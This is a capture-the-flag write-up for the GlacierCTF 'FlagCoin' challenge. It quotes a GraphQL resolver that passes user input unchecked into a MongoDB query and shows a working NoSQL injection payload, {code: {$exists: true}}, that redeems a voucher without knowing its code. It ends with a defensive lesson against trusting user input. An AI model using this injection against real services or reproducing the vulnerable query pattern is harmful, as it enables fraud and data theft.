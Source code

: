 # Challenge

Now that you are logged, can you obtain some FlagCoins?

https://flagcoin.ctf.glacierctf.com

# Writeup

We need to redeem a voucher, but we do not know the code. Here is the relevant code:

```js
const redeem = ({ voucher }, { req }) => {
  return auth.getUser(req)
    .then(user => {
      if(!user) {
        throw new Error("You must be logged in");
      }
      return db.Voucher.findOne({ code: voucher.code }).lean().exec()
        .then(dbvoucher => {
          if(!dbvoucher) {
            throw new Error("Voucher does not exist");
          }
          user.coins += dbvoucher.coins;
          // "TODO" delete voucher
          return dbvoucher;
        })
  })
  .catch(e => {
    throw new Error("Error occured "+e);
  });
};
```

The database is MongoDB, which means we can use conditions to the query. If we can set the query to `{code: {$exists: true}}`, we can find the voucher without knowing the correct code.

Fortunately, the GraphQL mutation uses JSON argument. We can easily capture the flag via:

```js
graphql("mutation($voucher: JSON!) {redeem(voucher: $voucher) {coins message} }", {voucher: {code: {$exists: true}}}).await
// => glacierctf{th4nk_y0u_for_p4r7icip4ting_at_0ur_get_p00r_qu1ck_sch3m3}
```

# Conclusion

Do not pass arbitrary value from user to MongoDB.